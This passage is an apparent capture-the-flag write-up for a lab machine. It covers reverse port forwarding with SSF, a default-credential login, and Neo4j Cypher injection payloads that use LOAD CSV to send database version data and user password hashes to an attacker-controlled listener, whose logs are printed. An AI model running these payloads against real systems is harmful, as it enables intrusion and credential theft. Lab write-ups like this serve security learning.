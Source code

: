 ## Port Forward with SSF

I will use Secure Socket Funneling (SSF) to setup port forwards so that I can connect/scan these new ports. I moved SSF onto the box by using `python -m http.server` and `wget -r 10.10.14.15:8000`

```
./ssf -R 8001:127.0.0.1:8001 -R 3000:127.0.0.1:3000 10.10.14.15
```

Visiting port 8001, I found another website. I tried a few guesses, and was able to login with the credentials:

`admin:admin`

There, I found a complete form that sends a POST request to the "search" page. There was a lot of guesswork here, but the logic landed on the fact that there was a lot of Neo4j on the server, so lets try some neo4j injects.

![](C:\Users\Mike\AppData\Roaming\marktext\images\2023-04-28-14-55-13-image.png)

## Neo4j SQL Injection

It took a lot of trial and error, but eventually I found this site that details neo4j injection: [Case Study - Neo4j Injection // MeowMeowAttack&#39;s security.log](https://meowmeowattack.github.io/case-study/neo4j-injection/)

```
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name LOAD CSV FROM 'http://10.10.14.15/?name=' + name as l RETURN 0 as _0 //
```

Result:

```
kali@kali:~$ sudo nc -v -l -p 80
listening on [any] 80 ...
connect to [10.10.14.15] from only4you.htb [10.10.11.210] 46018
GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1
User-Agent: NeoLoadCSV_Java/17.0.6+10-Ubuntu-0ubuntu120.04.1
Host: 10.10.14.15
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

So we have the neo4j information and an inject that works!

The next attack described on the page is:

```
> ' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.15/' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Which gives us some password hashes:

```
kali@kali:~/Downloads/ssf64$ sudo python -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
```